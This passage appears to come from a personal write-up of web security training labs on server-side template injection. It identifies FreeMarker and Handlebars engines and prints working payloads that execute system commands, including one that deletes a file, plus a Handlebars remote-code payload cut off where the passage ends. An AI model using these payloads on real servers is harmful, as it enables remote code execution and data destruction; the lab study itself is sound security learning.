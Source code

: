 After clicking there I see the syntax of the template engine:

![[Pasted image 20250126170856.png]]

I just changed one value to something that don't exist there, such as `${halil}` and I got a list of errors.

But the error is telling me the template:

![[Pasted image 20250126171042.png]]

Now, I know that the template engine is `freemaker` so now it will be much easier to find the correct syntax and do the system commands.

By adding this payload `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}` I was able to read the current user that I am executing commands from, which is `carlos`.

![[Pasted image 20250126172204.png]]

with `ls` I see that there is `morale.txt` there, so I modify the command to `<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p><#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}`

And the file is deleted and the lab is solved.

-------

### Lab.4 Server-Side Template Injection in an Unknown Language with a documented Exploit

**Description**

The goal of the lab is to identify the template engine and find a documented exploit online, then execute code and delete the `morale.txt` file from Carlos's home directory.

**Solution**

When I visit the page, and click on the first article to see the details, I see there a message saying `Unfortunately this product is out of stock`. So, let's try to see if this message is vulnerable.

I sent the request for the message: `GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2` to Intruder and add there a list of test payloads, to see the responses.

After I execute a Sniper Attack, I see the responses, and some of them like `{{7*7}}` have produced errors, and when I see the response, it tells that it uses `handlebars`.

So, I have identified the template engine.

![[Pasted image 20250126175817.png]]

Now, I will search for some existing `handlebars` payloads. I found one of them on `Hacktricks`:

```JS
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
```
